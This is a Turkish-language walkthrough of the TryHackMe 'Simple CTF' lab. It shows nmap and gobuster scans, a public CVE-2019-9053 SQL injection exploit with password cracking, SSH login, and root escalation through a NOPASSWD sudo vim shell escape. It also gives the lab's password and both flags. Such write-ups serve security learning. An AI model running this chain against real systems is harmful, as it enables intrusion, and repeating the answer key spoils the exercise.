 ```yaml
---
title: Simple CTF
date: 2024-03-27 13:01:13
categories: [TryHackMe]
tags: [Easy,Security]  
image: https://tryhackme-images.s3.amazonaws.com/room-icons/f28ade2b51eb7aeeac91002d41f29c47.png
---
```


<a href="https://tryhackme.com/room/easyctf">Simple CTF</a>


nmap taraması başlatalım:

```bash
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV -p- 10.10.118.25
```

nmap çıktısı:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-14 01:12 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 01:12
Scanning 10.10.118.25 [4 ports]
Completed Ping Scan at 01:12, 0.10s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:12
Completed Parallel DNS resolution of 1 host. at 01:12, 0.00s elapsed
Initiating SYN Stealth Scan at 01:12
Scanning 10.10.118.25 (10.10.118.25) [65535 ports]
Discovered open port 80/tcp on 10.10.118.25
Discovered open port 21/tcp on 10.10.118.25
SYN Stealth Scan Timing: About 21.89% done; ETC: 01:15 (0:01:51 remaining)
Discovered open port 2222/tcp on 10.10.118.25
SYN Stealth Scan Timing: About 56.59% done; ETC: 01:14 (0:00:47 remaining)
Completed SYN Stealth Scan at 01:14, 92.02s elapsed (65535 total ports)
Initiating Service scan at 01:14
Scanning 3 services on 10.10.118.25 (10.10.118.25)
Completed Service scan at 01:14, 6.20s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.118.25.
Initiating NSE at 01:14
Completed NSE at 01:14, 0.41s elapsed
Initiating NSE at 01:14
Completed NSE at 01:14, 0.36s elapsed
Nmap scan report for 10.10.118.25 (10.10.118.25)
Host is up (0.089s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.41 seconds
           Raw packets sent: 131138 (5.770MB) | Rcvd: 71 (2.852KB)
```

1000 portunun altında kaç hizmet çalışıyor?

- 2

En yüksek portta hangi hizmet çalışıyor?

- ssh

80 portunda websitesi çalışıyor siteyi kontrol edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a1.png?raw=true)

Sıradan ubuntu default sayfası. 

Gobuster çalıştırarak gizli dizin arayalım.

```bash
┌──(root㉿r3tr0)-[~]
└─# gobuster dir -u http://10.10.118.25/ -w  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

Gobuster çıktısı:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.118.25/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.118.25/simple/]
```

simple sayfasını buluyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a2.png?raw=true)

Siteyi incelediğimizde CMS Made Simple 2.2.8 versiyonu kullanıldığını görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a3.png?raw=true)


Google'a gidip "CMS Made Simple 2.2.8 exploit" ifadesini aratarak bu sürümle ilgili herhangi bir şey olup olmadığına bakalım.


Sonuçlara baktığımızda, Exploit-DB'de aramamızla eşleşen ve CVE-2019–9053 kullanan bir SQL enjeksiyon saldırısına atıfta bulunan bir sayfa görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a4.png?raw=true)

Uygulamaya karşı kullandığınız CVE nedir?

- CVE-2019-9053


Uygulama ne tür bir güvenlik açığına karşı savunmasızdır?

- SQLi

Exploit'i indirelim ve çalıştıralım.

```bash
┌──(root㉿r3tr0)-[/home/kali/Downloads]
└─# python3 46635.py
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

Bizden istediği parametreleri girelim.

```bash
┌──(root㉿r3tr0)-[/home/kali/Downloads]
└─# python3 46635.py -u http://10.10.118.25/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a5.png?raw=true)

Kullanıcı adı ve şifreyi buluyoruz.

Şifre nedir?
- secret

Elde edilen bilgilerle nereden giriş yapabilirsiniz?
- SSH

SSH ile makineye bağlanalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a6.png?raw=true)

user bayrağını alalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a7.png?raw=true)

Kullanıcı bayrağı nedir?

`G00d j0b, keep up!`

Yetki yükselmeye geçelim. Öncelikle mevcut kullanıcının neyi çalıştırabileceğini görmek için “sudo -l” komutunu çalıştıralım.

```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

“Mitch” kullanıcısının /usr/bin/vim'i şifre olmadan çalıştırabildiğini görüyoruz. Bu bilgilerle GTFOBins'e göz atalım ve bunu privesc için kullanıp kullanamayacağımıza bakalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a8.png?raw=true)

sudo vim -c ':!/bin/sh' komutunu kullanarak yetki yükseltebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a9.png?raw=true)

Root bayrağı nedir?

`W3ll d0n3. You made it!`

![fsoc](/images/fsoc.gif)
